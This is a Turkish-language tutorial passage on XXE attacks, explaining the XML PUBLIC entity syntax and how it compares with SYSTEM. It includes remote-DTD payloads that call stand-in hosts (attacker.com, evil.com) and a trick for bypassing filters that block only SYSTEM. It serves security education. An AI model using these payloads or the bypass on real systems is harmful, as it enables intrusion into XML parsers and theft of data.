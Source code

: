 ##### Sözdizimi:

```xml
<!ENTITY xxe PUBLIC "PublicID" "URI">
```

- `"PublicID"` → Genelde görmezden gelinir veya bilgi amaçlıdır.
- `"URI"` → Asıl çekilmek istenen dış kaynağın URL’sidir.

#####  XXE Context'inde Kullanımı:

XXE saldırılarında genellikle `PUBLIC` şu şekilde kullanılır:

```xml
<!ENTITY % xxe PUBLIC "random text" "http://attacker.com/malicious.dtd">
```

Bu durumda:

- `PUBLIC` ifadesi görünürde bir **"açık tanım"** sunuyormuş gibi davranır.
- Ama asıl parser, `"http://attacker.com/malicious.dtd"` kısmına gider ve oradaki içeriği işler.
- Bu da genellikle **remote DTD injection (RDTD)** saldırısı için kullanılır.

#####  `SYSTEM` ve `PUBLIC` Karşılaştırması

| Özellik          | SYSTEM              | PUBLIC                                         |
| ---------------- | ------------------- | ---------------------------------------------- |
| Argüman Sayısı   | 1 (sadece URI)      | 2 (Public ID + URI)                            |
| Ana Amaç         | Dosya/URL referansı | Public tanım ama URI üzerinden içerik çeker    |
| XXE’de Kullanımı | Sık                 | Daha az yaygın ama bazı bypass’larda işe yarar |
| Remote DTD       | Evet                | Evet                                           |

#####  Güvenlik Amaçlı Farkı Kullanımı

Bazı **XML firewall** veya **parser güvenlik önlemleri** sadece `SYSTEM` kullanımını engeller ama `PUBLIC` kullanımına dikkat etmez. Bu durumda:

```xml
<!ENTITY % xxe SYSTEM "http://evil.com/payload.dtd">
```

engellenirken,

```xml
<!ENTITY % xxe PUBLIC "abc" "http://evil.com/payload.dtd">
```

**geçebilir**.

Bu da `PUBLIC` kullanımını **bypass aracı** haline getirir.

#####  Örnek Kullanım (Remote DTD ile `PUBLIC`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % xxe PUBLIC "abc" "http://attacker.com/malicious.dtd">
  %xxe;
]>
<root>test</root>
```
